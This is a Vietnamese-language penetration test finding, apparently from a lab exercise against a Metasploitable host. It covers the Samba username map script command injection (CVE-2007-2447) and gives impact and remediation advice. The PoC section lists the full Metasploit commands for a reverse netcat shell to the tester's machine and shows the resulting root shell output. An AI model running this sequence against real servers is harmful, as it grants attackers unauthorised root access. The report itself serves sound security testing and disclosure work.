

# F04 — Samba Username Map Script RCE

**Mức độ:** Critical  
**Mục tiêu:** `192.168.77.20:445`  
**Dịch vụ:** Samba `3.0.20-Debian`  
**CVE:** CVE-2007-2447  
**CWE:** CWE-78 — OS Command Injection  

## 1. Mô tả

Dịch vụ Samba trên máy mục tiêu tồn tại lỗ hổng thực thi lệnh từ xa thông qua tính năng `username map script` khi xử lý username không an toàn.

## 2. Kiểm chứng (PoC)

**Module:** `exploit/multi/samba/usermap_script`  
**Payload:** `cmd/unix/reverse_netcat`

**Cấu hình và khai thác:**

```bash
use exploit/multi/samba/usermap_script
set RHOSTS 192.168.77.20
set RPORT 445
set PAYLOAD cmd/unix/reverse_netcat
set LHOST 192.168.77.10
set LPORT 4444
run
```

**Kiểm tra quyền truy cập:**

```bash
id
whoami
hostname
```

**Kết quả:**

```text
Command shell session 1 opened

uid=0(root) gid=0(root)
root
metasploitable
```

Khai thác thành công, tạo được Reverse Shell và thực thi lệnh với quyền `root`.

**Screenshot:**



**Evidence:** [F04-samba-metasploit.txt](../evidence/F04-samba-metasploit.txt)

## 3. Tác động

Cho phép thực thi lệnh từ xa với quyền `root`, có thể dẫn đến chiếm quyền điều khiển toàn bộ hệ thống.

## 4. Khắc phục

- Cập nhật Samba lên phiên bản đã vá lỗ hổng.
- Vô hiệu hóa `username map script` nếu không cần thiết.
- Giới hạn truy cập SMB (port 445) chỉ cho các máy tin cậy.